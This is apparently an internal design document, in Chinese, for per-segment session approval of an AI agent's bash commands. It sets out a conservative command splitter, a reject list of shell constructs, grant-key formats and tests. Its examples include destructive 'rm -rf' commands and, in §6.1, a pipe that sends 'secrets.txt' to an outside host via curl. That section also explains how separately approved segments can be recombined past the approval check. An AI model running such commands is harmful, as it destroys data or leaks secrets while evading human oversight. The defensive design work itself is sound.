


# 分段授权（技术方案）

> 相关：[产品视角](../features/approval-grant-split.md) · [施工进展](../plans/approval-grant-split.md)
> 依赖：[chat 应用技术方案 §6](chat-webapp.md)（[会话级授权](../terms.md)现状）
> 术语一律引用 [docs/terms.md](../terms.md)，本文不自建术语。

## 1. 改造对象与改动面

现状（`apps/node-server/src/agent/session-grants.ts`）：

```
grantKey = `${toolName} ${稳定序列化(整个 input)}`
```

一条调用 = 一行 `conversation_grants`。改造后，bash 调用改为**按[命令段](../terms.md)记账**：一条调用拆成 N 段，记 N 行。

**改动面只有两个文件**，调用点一行不改：

| 文件 | 改动 |
|---|---|
| `agent/split-command.ts`（新增） | 纯函数拆分器，无 I/O、无依赖 |
| `agent/session-grants.ts` | `grantSessionApproval` / `hasSessionGrant` 内部按段记/查 |

`resolveReview`（turn-runner）与 `onApproval`（turn-launcher）传进来的已经是 `(toolName, input)`，`input` 里就有 `command` 和 `cwd`——**签名不变，调用点不动**。**无 DB 迁移**（复用 `grant_key` 文本列，靠 key 前缀区分两种记账形态）。

## 2. 业务数据领域设计

表结构不变，只是 `grant_key` 多了一种形态。



`grant_key` 的两种形态（靠前缀区分，`#` 不会出现在工具名里，永不撞车）：

| 形态 | key 样子 | 何时写 |
|---|---|---|
| **整串授权**（沿用至今，兜底） | `bash {"command":"...","cwd":"..."}` | 非 bash 工具，或 bash 但拆不动 |
| **分段授权**（新增） | `bash#seg {"argv":["rm","-rf","node_modules"],"cwd":"/repo","redirects":[]}` | bash 且拆得动，每段一行 |

两种形态**并存且都参与查询**（`整串命中 OR 全部段命中` → 放行），因此上线前已存在的授权行继续有效，无需回填。

### 2.1 段的记账键为什么是 argv 数组而不是命令原文

不能把段规范化成一行字符串。`rm -rf "my dir"` 与 `rm -rf my dir` 是**两条不同的命令**（删一个目录 vs 删两个），拼成字符串后完全相同——那会让前者的授权放行后者。所以键里存的是**去引号后的 argv 数组**，词边界由 JSON 数组本身保住。

`cwd` 进键（同一条 `rm -rf build` 在 `/` 和在 `/repo` 危险程度不同）；`timeout_ms` **不**进键（不影响这条命令做什么，进键只会平白增加重复审批）。

## 3. 拆分器（`split-command.ts`）

### 3.1 唯一的正确性要求：失败必须向严格的方向倒

拆分器的两种出错方式**后果不对称**：

- **拆不出来 / 拆得过细** → 退回整串匹配 → 用户多点一次按钮。**等价于今天的行为，零回退。**
- **漏看了一条命令** → 危险命令被当成已授权放行。**这是唯一要防的失效模式。**

因此拆分器**不需要完整实现 bash 文法**，只需要：**能完全看懂的形状才拆，剩下一律认怂**（返回 `undefined`）。完备性的负担被"退回整串"这个兜底卸掉了。

签名：

```ts
export interface CommandSegment {
  argv: string[];        // 去引号后的实参，词边界保真
  redirects: string[];   // 规范化重定向，如 [">log.txt", "2>&1"]，按出现顺序
}

/** 拆得动返回段数组；任何看不透的构造返回 undefined（调用方退回整串匹配）。 */
export function splitCommand(command: string): CommandSegment[] | undefined;
```

### 3.2 接受的形状

只接受这一种平坦结构：

```
简单命令  ( && | || | ; | | )  简单命令  ...
```

简单命令内部允许：

- 单引号（内部一切字面量）、双引号（内部禁 `$` / `` ` ``，见下）
- `$VAR` / `${VAR}`——**当普通实参 token**
- 重定向 `>` `>>` `<` `2>` `2>>` `&>` `2>&1`
- glob 字符 `*` `?` `[` `]`——按字面 token 处理，不展开
- 前置环境变量赋值（`FOO=bar cmd`）——`FOO=bar` 就是 argv 的一部分，照常进键

### 3.3 `$VAR` 为什么可以放行

bash **不会**把参数展开的结果重新解析成操作符：

```bash
X=';rm -rf /'
echo $X        # 打印 ";rm -rf /"，不会执行 rm
```

所以 `rm -rf $DIR` 永远只是**一条**命令，变量当普通 token 不会漏看命令。会把字符串重新当命令解析的只有 `eval` 和命令替换那一撮，全在下面的拒绝清单里。

（`$DIR` 具体展开成什么在两次调用间可能不同——但这是**今天的整串授权同样存在**的性质，不是本功能引入的。）

### 3.4 拒绝清单（命中任意一条即返回 `undefined`）

| # | 构造 | 为什么必须拒绝 |
|---|---|---|
| 1 | `$(...)`、`` `...` `` | 命令替换——藏了一整条命令 |
| 2 | `<(...)`、`>(...)` | 进程替换——同上 |
| 3 | `eval` 作为 argv[0] | 把字符串重新当命令解析 |
| 4 | 引号外的 `(` `)` | 子 shell |
| 5 | `{` / `}` 作为命令词 | 命令组 |
| 6 | `<<` / `<<<` | heredoc / herestring——后续行是数据不是命令，静态切分会错位 |
| 7 | 引号外的换行 | 多行脚本，行本身就是分隔符 |
| 8 | 引号外的 `\` | 转义可以让 `\;`、`\&&` 逃过分隔符识别，也可能是续行 |
| 9 | 引号外的 `#`（词首） | 注释——`rm -rf x # && echo safe` 会让后半段假装存在 |
| 10 | 单独的 `&`（非 `&&`、非 `2>&1`） | 后台执行 |
| 11 | `!` 作为命令词 | 取反 / 历史展开 |
| 12 | shell 关键字作为命令词：`if then else elif fi for while until do done case esac in function select time [[ ]]` | 控制结构，平坦切分无意义 |
| 13 | 引号未闭合 | 整行的分隔符位置判断全部作废 |
| 14 | 切出空段（如 `a && && b`） | 语法本身不合法，别猜 |

清单条目**只增不减**：将来发现新的能藏命令的写法，加进来即可（加进来只会让更多命令退回整串，不会放宽）。

### 3.5 已知限制（词法层，写进产品文档）

拆分器只回答「这行字里写了哪几条命令」，不回答「这几条命令实际会跑起什么」。`npm run build`、`bash x.sh`、`make`、`sudo`、`xargs` 背后跑什么，它一概不知。**今天的整串授权有完全相同的限制**，本功能不加重也不解决。

## 4. 记账与查询

```ts
// 记（人点「会话内都允许」）
grantSessionApproval(db, conv, user, toolName, input):
  segs = toolName === 'bash' ? splitCommand(input.command) : undefined
  if (segs) 逐段 INSERT OR IGNORE segmentKey(seg, input.cwd)   // N 行
  else      INSERT OR IGNORE wholeKey(toolName, input)          // 1 行（今天的行为）

// 查（onApproval 分类前）
hasSessionGrant(db, conv, user, toolName, input):
  if (整串 key 命中) return true                                 // 向后兼容旧行
  segs = toolName === 'bash' ? splitCommand(input.command) : undefined
  if (!segs) return false
  return 每一段的 key 都在表里                                    // 一次 IN 查询
```

段去重后再插（`a && a` 只记一行）；查询用单条 `WHERE grant_key IN (...)` 比对命中数，不做 N 次往返。

## 5. 核心流程



## 6. 取舍与已知风险

### 6.1 段可以重新组合（刻意接受）

分别授权 `cat secrets.txt` 与 `curl -d @- example.com` 后，`cat secrets.txt | curl -d @- example.com` 会直接放行。每一段都经过人工审批，但组合是新的数据流。

接受它，因为：(a) 这是「按段记账」的**定义性代价**，绕开它就等于绕回整串匹配、功能归零；(b) 每一段的字面文本都是人在卡片上**亲眼读过**的，不存在"授权了没见过的东西"；(c) `clearSessionGrants` 是现成的一键作废入口。

同理，`a && b` 与 `a || b`、`b && a` 在段集合上等价，互相放行——可能执行的命令集合是同一个或更小，不构成新增风险。

### 6.2 授权命中会短路危险命令分类（现状，不改）

`hasSessionGrant` 命中即 `allow`，不再走 `commandNeedsHumanApproval`。这是今天就有的语义（否则「会话内都允许 `git push`」永远生效不了），分段授权只是让命中更容易发生。**没有改变**的是：任何一段没记过，就完整走今天的分类逻辑。

### 6.3 为什么不做前缀规则（`npm install *`）

`npm install react` 与 `npm install vue` 仍是两段，包名一换还要再批一次。彻底解决需要让人在卡片上选「允许所有 `npm install …`」。

本期不做，因为那**改变了授权的性质**：分段授权记的每一个字都是人读过的原文，前缀规则则是人**没读过**的一整类命令。后者必须配套 UI 上把范围显式画出来、并单独评估，不适合塞进这一期。留作后续。

### 6.4 UI 是否要展示"会记住哪几段"

分段授权不放宽到人没读过的内容（见 6.3），因此**不是上线前提**。但多段命令下展示一份"这次会记住这 3 条"清单对理解有帮助——列为后续可选阶段（需要把拆分结果送到前端，涉及 wire 改动，故不与本期绑定）。

## 7. 测试策略

- **拆分器**：表驱动单测，两组用例——(a) 接受组：每种允许的语法各一条，断言段数与 argv 精确相等；(b) 拒绝组：§3.4 清单**每条一个用例**，断言返回 `undefined`。
- **记账/查询**：真测试库 + seed（沿用 `session-grants.test.ts` 现有夹具）——复合命令授权后子集命中 / 新段不命中 / `rm -rf a` 不放行 `rm -rf b` / cwd 不同不放行 / 拆不动时退回整串 / 旧整串行仍有效 / 按用户隔离仍成立。
- **端到端**：`routes/chat.test.ts` 追加——`allow-session` 一条复合命令后，下一轮发出「其中一段」不再产生 `tool-approval-request`；发出「含新段的命令」仍产生。
